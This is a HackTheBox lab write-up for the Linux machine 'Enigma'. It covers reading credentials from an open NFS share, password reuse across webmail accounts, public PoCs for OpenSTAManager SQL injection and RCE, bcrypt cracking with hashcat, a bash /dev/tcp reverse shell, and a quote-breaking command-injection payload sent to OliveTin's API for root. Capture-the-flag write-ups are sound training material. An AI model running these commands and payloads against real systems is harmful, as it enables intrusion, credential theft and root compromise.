

# Enigma (HackTheBox)

**Category:** Machine — Linux, Easy

## Challenge

Enigma is a Linux machine. The path to root has four parts: recon, foothold,
user, and root. This writeup follows that order. Each step has the command and
a short reason why it works.

The flags are redacted.

## Recon

I scanned all TCP ports and detected the service versions:

```sh
nmap -p- -sV 10.129.200.5
```

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
110/tcp   open  pop3     Dovecot pop3d
111/tcp   open  rpcbind  2-4 (RPC #100000)
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
2049/tcp  open  nfs_acl  3 (RPC #100227)
39455/tcp open  mountd   1-3 (RPC #100005)
...
```

`-p-` scans all 65535 ports, thus it also finds the high RPC ports of NFS.
`-sV` reads the service banners, so I learned the exact versions.

The important services are a mail stack (POP3/IMAP), a web server, and NFS.

I tried the services in order:

- **POP3:** I tried an anonymous login. It did not work.
- **HTTP:** I examined the website and enumerated directories. I found nothing
  useful.
- **NFS:** This gave the first result.

## Foothold — NFS to webmail

NFS can export a share without authentication. First, I listed the exports:

```sh
showmount -e 10.129.200.5
```

```
Export list for 10.129.200.5:
/srv/nfs/onboarding *
```

The `*` means any host can mount the share. Then I made a mount point and
mounted it:

```sh
sudo mkdir -p /mnt/onboarding
sudo mount -t nfs 10.129.200.5:/srv/nfs/onboarding /mnt/onboarding
```

Inside the share there was a PDF. It was an onboarding letter for a new
employee, Kevin. The letter held his webmail credentials:



The letter gives the webmail URL `http://mail001.enigma.htb`, the username
`kevin`, and a first-login password. A document that holds a plaintext
password is the weak point here.

I added the virtual hosts to my hosts file, because the server routes by host name

## User — mail, password reuse, and the dashboard

I logged in to Kevin's webmail with the password from the letter. His inbox
had a welcome email from Sarah (`sarah@enigma.htb`). The text was not useful,
but it confirmed Sarah as the next person.

<details>
<summary>Welcome email — Sarah to Kevin</summary>

```
Return-Path: <sarah@enigma.htb>
X-Original-To: kevin@localhost
Delivered-To: kevin@localhost
Received: from enigma (localhost [127.0.0.1])
        by enigma (Postfix) with ESMTP id 673F7211B9
        for <kevin@localhost>; Wed, 18 Feb 2026 21:29:13 +0000 (UTC)
Date: Wed, 18 Feb 2026 21:29:13 +0000
To: kevin@localhost
From: sarah@enigma.htb
Subject: Welcome to Enigma Corp, Kevin!
Message-Id: <20260218212913.010896@enigma>
X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/

Hi Kevin,

Welcome to the team! We're thrilled to have you on board at Enigma Corp.

A little about us — Enigma Corp is a mid-sized technology and operations firm
specializing in infrastructure management and enterprise solutions. We've been
growing rapidly over the past few years and we're excited to have fresh talent
joining us.

I'm Sarah from the Accounts department. I'll be your point of contact for any
finance-related queries during your onboarding period.

We're still finalizing a few of your onboarding details — your system access,
equipment setup, and department introductions are all being arranged by the IT
team. You should be receiving your access credentials shortly via the company
shared drive.

In the meantime, don't hesitate to reach out if you have any questions. We want
to make sure your first few days are as smooth as possible.

Looking forward to working with you!

Best regards,
Sarah
Accounts Department
Enigma Corp
sarah@enigma.htb
```

</details>

I tried Kevin's password on Sarah's account. It worked. Password reuse between
accounts is a common error, thus the same password opened Sarah's mailbox.

Sarah's inbox had an email from IT with credentials for an OpenSTAManager
dashboard:

```
URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s
```

<details>
<summary>Access email — IT to Sarah</summary>

```
Return-Path: <it@enigma.htb>
X-Original-To: sarah@localhost
Delivered-To: sarah@localhost
Received: from enigma (localhost [127.0.0.1])
        by enigma (Postfix) with ESMTP id C123C211B9
        for <sarah@localhost>; Wed, 18 Feb 2026 21:42:51 +0000 (UTC)
Date: Thu, 19 Feb 2026 10:22:00 +0000
Subject: Re: OpenSTAManager Access Request
From: it@enigma.htb
To: sarah@enigma.htb
Message-Id: <osm-reply-001@enigma.htb>
In-Reply-To: <osm-request-001@enigma.htb>
References: <osm-request-001@enigma.htb>

Hi Sarah,

Apologies for the delay. I have provisioned your access. Please find the
details below:

URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s

Note: I will create a dedicated account for you shortly, for now you can use
the admin account to get started.

Regards,
IT Support
Enigma Corp
```

</details>

### OpenSTAManager — SQL injection

I logged in to the dashboard and found the version: **OpenSTAManager 2.9.8**.
I searched for a CVE and found **CVE-2026-24418**, an error-based SQL injection
in the `send_reminder` function, through the `id_records[]` parameter. I used
this PoC: [BridgerAlderson/CVE-2026-24418](https://github.com/BridgerAlderson/CVE-2026-24418).

```sh
python3 exploit.py -t http://support_001.enigma.htb -u admin -p 'Ne3s4rtars78s' --all
```

An authenticated user reaches the vulnerable query, thus the admin login gives
access to the injection. The tool dumped the `zz_users` table:

```
User #2
 ├─ Username: haris
 ├─ Email: haris@enigma.htb
 └─ Hash: $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC
```

### Crack the hash

The hash starts with `$2y$`, thus it is bcrypt (hashcat mode 3200). I cracked
it with the rockyou wordlist:

```sh
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriends
```

The password `bestfriends` is in the wordlist, thus the crack took a few
seconds.

### Remote code execution

I could not use SSH, because it required a public key. The SQL injection PoC
also has an RCE mode, but it did not work: the MySQL user `brollin` has no
`FILE` privilege. I also tried the backup module to upload a web shell, but
its size and structure restrictions stopped me.

Then I found a second CVE for OpenSTAManager: **CVE-2025-69212**, from the same
researcher. This PoC gave code execution:
[BridgerAlderson/CVE-2025-69212-PoC](https://github.com/BridgerAlderson/CVE-2025-69212-PoC/).

The RCE runs as the web server user, `www-data`. I started a listener and
caught a reverse shell:

```sh
# attacker
nc -lvnp 9001
```

```sh
# target, through the RCE
bash -c 'bash -i >& /dev/tcp/10.10.14.X/9001 0>&1'
```

I upgraded the shell to a full TTY. A raw shell has no job control, thus the
PTY upgrade makes it usable:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then Ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

I switched to Haris with the cracked password and read the user flag:

```sh
su haris        # password: bestfriends
cat /home/haris/user.txt
# <user flag redacted>
```

## Root — OliveTin command injection

As `www-data`, I saw a folder `/var/www/olivetin`. OliveTin is a web tool that
shows buttons for shell commands, so a user can run fixed admin tasks from a
browser.

Its config is at `/etc/OliveTin/config.yaml`. Two settings made it dangerous:

- `authRequireGuestsToLogin: false` — a guest does not need to log in.
- the default `exec: true` — a guest can run actions.

The OliveTin process ran as **root**. Thus, any action it runs is a root
action.

OliveTin listened on `127.0.0.1:1337` only, so I could not reach it from Kali.
I made an SSH key pair, put the public key in Haris's `authorized_keys`, and
made a local port-forward:

```sh
ssh -i id_enigma -L 1337:127.0.0.1:1337 haris@10.129.200.5
```

`-L` sends my local port 1337 to the port 1337 of the target, thus the local
service becomes reachable in my browser at `http://127.0.0.1:1337`.

### The injection

I checked the version and found **CVE-2026-27626**, a command injection in
OliveTin. I used this advisory:
[GHSA-49gm-hh7w-wfvf](https://github.com/advisories/GHSA-49gm-hh7w-wfvf).

The `backup_database` action puts a user argument straight into a shell
string:

```
mysqldump -u {{db_user}} -p'{{db_pass}}' {{db_name}} > /opt/backups/backup.sql
```

The `db_pass` argument has type `password`, but the code does not escape it.
I set `db_pass` to a value that closes the single quote and adds a command:

```
x'; id > /tmp/o 2>&1; echo 'y
```

The first `'` closes the quote of `-p'...'`. Then `; id ...` runs as a
separate command. The final `echo 'y` opens a new quote, thus the rest of the
line stays valid.

I could not use the web buttons directly, so I called the API. First, I read
the dashboard to get the action id:

```sh
curl -s http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/GetDashboard
```

The response gave the `bindingId` of each action. For `backup_database` the
id was just `backup_database`. Then I started the action with my arguments:

```sh
curl -s http://127.0.0.1:1337/api/olivetin.api.v1.OliveTinApiService/StartAction \
  -H 'Content-Type: application/json' \
  -d '{"bindingId":"backup_database","arguments":[{"name":"db_pass","value":"x'\''; id > /tmp/o 2>&1; echo '\''y"}]}'
```

The API is blind: it returns only an `executionTrackingId`, not the output.
Thus, I redirected the output to `/tmp/o` and read the file:

```sh
cat /tmp/o
# uid=0(root) gid=0(root) groups=0(root)
```

The command ran as root. Then I changed the payload to read the root flag:

```
x'; cat /root/root.txt > /tmp/o 2>&1; echo 'y
```

```sh
cat /tmp/o
# <root flag redacted>
```

## Result

I got a shell as `www-data`, then Haris for the user flag, then root through
the OliveTin command injection. I read both flags.

## Summary

| Phase    | Technique                                                    |
|----------|-------------------------------------------------------------|
| Recon    | `nmap -p- -sV`: found NFS, mail, web                         |
| Foothold | Mount the NFS share, read Kevin's onboarding PDF             |
| User     | Password reuse (Kevin → Sarah), OpenSTAManager SQLi + RCE   |
| Root     | OliveTin as root, command injection in `backup_database`    |

## Tools and resources

- `nmap`, `showmount`, `mount.nfs`: recon and NFS access.
- `hashcat` mode 3200: bcrypt cracking with rockyou.
- OpenSTAManager SQLi — [CVE-2026-24418](https://github.com/BridgerAlderson/CVE-2026-24418)
- OpenSTAManager RCE — [CVE-2025-69212](https://github.com/BridgerAlderson/CVE-2025-69212-PoC/)
- OliveTin command injection — [CVE-2026-27626](https://github.com/advisories/GHSA-49gm-hh7w-wfvf)
